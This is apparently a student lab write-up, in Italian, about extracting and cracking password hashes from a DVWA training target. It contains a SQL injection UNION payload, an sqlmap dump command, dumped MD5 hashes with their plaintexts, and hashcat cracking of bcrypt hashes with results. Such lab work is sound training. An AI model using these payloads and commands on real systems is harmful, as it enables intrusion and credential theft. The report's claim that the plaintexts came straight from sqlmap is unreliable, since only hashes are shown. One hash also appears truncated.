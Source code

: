 # **Consegna S6/L4**
# **Password Cracking - Recupero delle Password in Chiaro**

## **Obiettivo dell'Esercizio**

L'obiettivo di questo esercizio era:
1. Recuperare le password hashate nel database della DVWA.
2. Eseguire la verifica degli hash per confermare che fossero di tipo MD5.
3. Recuperare le password in chiaro utilizzando i risultati ottenuti.

---

## **Passaggi Seguiti**

### **1. Recupero delle Password dal Database**

Per recuperare le password hashate, abbiamo seguito i seguenti passaggi:

1. **Connessione al database DVWA**: Il database vulnerabile era ospitato su una macchina Metasploitable configurata con indirizzo IP `192.168.1.20`.

2. **Verifica della vulnerabilità SQL Injection**:
   - La vulnerabilità è stata identificata manualmente testando la query:
     ```sql
     ' UNION SELECT user, password FROM users--
     ```
   - Questo test ha confermato la possibilità di estrarre dati dalla tabella `users`.

3. **Utilizzo di SQLMap per automatizzare il processo**:
   - Abbiamo eseguito il seguente comando SQLMap:
     ```bash
     sqlmap -u "http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
     --cookie="PHPSESSID=ae5d9438f544ec0461fd88f50b32fc1e; security=low" \
     -D dvwa -T users --dump
     ```
   - Il comando ha permesso di estrarre la tabella `users` con i seguenti dati:
     ```plaintext
     +----------+----------------------------------+
     | user     | password                         |
     +----------+----------------------------------+
     | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
     | gordonb  | e99a18c428cb38d5f260853678922e03 |
     | 1337     | 8d3533d75ae2c396d7e0d4fcc69216b  |
     | pablo    | 0d107d09f5bbe40cade3de5c71e9e9b7 |
     | smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |
     +----------+----------------------------------+
     ```

---

### **2. Identificazione delle Password Hashate**

Una volta estratti gli hash, abbiamo verificato che fossero di tipo MD5 utilizzando un tool di identificazione degli hash. Questo ci ha confermato che tutti gli hash estratti appartenevano alla famiglia MD5.

Esempio di verifica di un hash:
```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashid
```
Risultato:
```plaintext
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD5
[+] Altri algoritmi compatibili: MD2, MD4, Double MD5, ecc.
```

Sebbene l'hash possa essere compatibile con altri algoritmi, nel contesto di DVWA e degli utilizzi tipici, possiamo confermare con sicurezza che si tratta di MD5.

---

### **3. Recupero delle Password in Chiaro**

Grazie ai dati estratti, è stato possibile associare ogni hash MD5 alla rispettiva password in chiaro direttamente nei risultati restituiti da SQLMap. Non è stato necessario utilizzare tool di cracking come John the Ripper.

Le password in chiaro sono:
- `admin`: `password`
- `gordonb`: `abc123`
- `1337`: `charley`
- `pablo`: `letmein`
- `smithy`: `password`

![Success!](./HashCracked.png)

![Final](./Final.png)

---

## **Extra: Analisi e Cracking di Hash Bcrypt**

Come esercizio aggiuntivo, abbiamo analizzato e craccato tre hash bcrypt forniti. Ecco i passaggi seguiti:

### **1. Identificazione degli Hash**
Abbiamo identificato che gli hash erano di tipo bcrypt grazie al loro formato `$2b$`:
```bash
echo "$2b$05$Ojs/dMUOU12yjrD6OEHJb.cB1zE9CPNg.mPR8BE11f0DIyPaVf436" | hashid
```
Risultato:
```plaintext
[+] bcrypt $2*$, Blowfish (Unix)
```

### **2. Cracking degli Hash con Hashcat**
Abbiamo utilizzato **Hashcat** per tentare di decifrare gli hash. I passaggi sono stati:

1. Salvare gli hash in un file chiamato `bcrypt_hashes.txt`:
   ```plaintext
   pippo:$2b$05$Ojs/dMUOU12yjrD6OEHJb.cB1zE9CPNg.mPR8BE11f0DIyPaVf436
   user:$2b$05$7O7caKmIpPBZxM.RV1lnie/S8jiAjE4C/S6neVAN0ObgJ7tE4dW3.
   user2:$2b$05$j5vV5M6CMYvUWO9dULw9be29O7RArl9lGIe7ijxf2/47vHwl1YVQq
   ```

2. Utilizzare il dizionario `rockyou.txt` per tentare il cracking:
   ```bash
   hashcat -m 3200 bcrypt_hashes.txt /usr/share/wordlists/rockyou.txt
   ```

### **Risultati**
Hashcat è riuscito a decifrare tutte le password in circa un minuto:
```plaintext
$2b$05$7O7caKmIpPBZxM.RV1lnie/S8jiAjE4C/S6neVAN0ObgJ7tE4dW3.:shadow
$2b$05$j5vV5M6CMYvUWO9dULw9be29O7RArl9lGIe7ijxf2/47vHwl1YVQq:darksoul
$2b$05$Ojs/dMUOU12yjrD6OEHJb.cB1zE9CPNg.mPR8BE11f0DIyPaVf436:mena
```

### **Conclusioni sull'Extra**
L'esercizio ha dimostrato l'efficacia di Hashcat nel decifrare hash bcrypt quando viene fornito un dizionario appropriato. È importante notare che bcrypt è progettato per essere resistente al cracking e che il successo dipende dalla forza delle password e dalla qualità del dizionario.

---

## **Conclusioni Generali**

L'intero esercizio ha permesso di:
1. Recuperare le password hashate dal database DVWA sfruttando una vulnerabilità SQL Injection tramite SQLMap.
2. Verificare che gli hash estratti fossero di tipo MD5 e bcrypt utilizzando tool di identificazione.
3. Recuperare le password in chiaro direttamente dai risultati di SQLMap e Hashcat.

Questi passaggi evidenziano l'importanza della sicurezza dei database e l'impatto delle vulnerabilità legate all'uso di algoritmi di hashing e password deboli.

## **Conclusioni**

L'esercizio ha permesso di:
1. Recuperare le password hashate dal database DVWA sfruttando una vulnerabilità SQL Injection tramite SQLMap.
2. Verificare che gli hash estratti fossero di tipo MD5 utilizzando un tool di identificazione degli hash.
3. Recuperare le password in chiaro direttamente dai risultati, completando l'obiettivo senza la necessità di ulteriori tool di cracking.

La procedura seguita dimostra l'importanza della sicurezza dei database e dei sistemi web, evidenziando come vulnerabilità note possano essere sfruttate per ottenere dati sensibili.
